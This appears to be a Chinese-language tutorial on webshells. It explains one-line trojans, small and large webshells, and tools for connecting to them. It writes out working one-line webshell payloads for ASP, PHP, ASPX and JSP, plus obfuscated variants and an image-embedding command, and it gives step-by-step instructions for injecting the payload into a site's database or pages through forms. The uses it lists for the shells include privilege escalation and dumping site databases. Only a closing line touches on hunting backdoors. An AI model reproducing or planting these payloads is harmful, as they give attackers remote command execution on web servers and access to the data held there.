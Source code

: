 # webshell的种类

一句话木马
小马
大马
打包马
脱裤马
等等

# 一句话木马

介绍： 一句话木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用

<%execute request("value")%>

# 工作原理

黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：
<%execute request("value")%>
其中value是值，所以你可以更改自己的值，前面的request就是获取这个值
<%eval request("value")%>(现在比较多见的，而且字符少，对表单字数有限制的地方特别实用)
当知道了数据库的URL，就可以利用本地一张网页进行连接得到Webshell(不知道数据库也可以，只要知道<%eval request("value")%>)这个文件被插入到哪一个ASP文件里面就可以了）

这就被称为一句话木马，它是基于B/S结构的

# 常见写法

asp一句话木马
<%eval rquest("c")%>

php一句话木马
<?php @eval($_POST[value]);?>

aspx一句话木马
<%@ Page Language="Jscript"%>
<%eval(Request.Item["value"])%>

jsp一句话
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

# 一句话变形

<?php $_REQUEST['a']($_REQUEST['b']);?>
<%Eval(Request(chr(112)))%>
<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("xindong"))%>
<%eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")")%>
<%a=request("gold")%><%eval a%>

# 一句话图片马的制作

C32下做一句话
打开c32，把图片放里面，写入一句话保存，退出

cmd下做一句话
copy /b 1.jpg+1.asp 2.jpg
win7下右键图片，在属性->详细信息->版权内插入一句话即可

# 常见一句话客户端

一句话最常用的客户端为：
 一句话客户端增强版
 中国菜刀
 中国砍刀
 lanker一句话客户端
 ZV新型PHP一句话木马客户端GUI版

cacls 管理员改文件权限（windows）

# 小马

小马体积小，容易隐藏，隐蔽性强，最重要在于与图片结合一起上传之后可以利用nginx或者IIS6的解析漏洞来运行，不过功能少，一般只有上传等功能

# 大马

大马体积比较大 一般50K以上。功能也多，一般都包括提权命令，磁盘管理，数据库连接接口，执行命令甚至有些以具备自带提权功能和压缩，解压缩网站程序的功能。这种马隐蔽性不好，而大多代码如不加密的话很多杀毒厂商开始追杀此类程序

# 一句话的使用

首先，找到数据库是asp格式的网站，然后，以留言板，或者发表文章的方式，把一句话添加到asp数据库，或者加进asp网页

记住！我们的目的是把一句话<%execute request("value")%>添加到数据库，无论任何方式！

然后打开客户端(就是你电脑上面那个html文件)，填上加入了一句话的asp文件，或者是asp网页，然后进入此网站服务器

# 小马的使用

主要用来上传大马

# 大马的使用

用途：
提权
打包
脱裤
增删文件
等等

# 使用技巧

内容编码
配合解析漏洞
配合文件包含
利用文件名溢出

# 找shell后门

查找后门：
查找webshell后门
找到后门地址
反搞webshell箱子

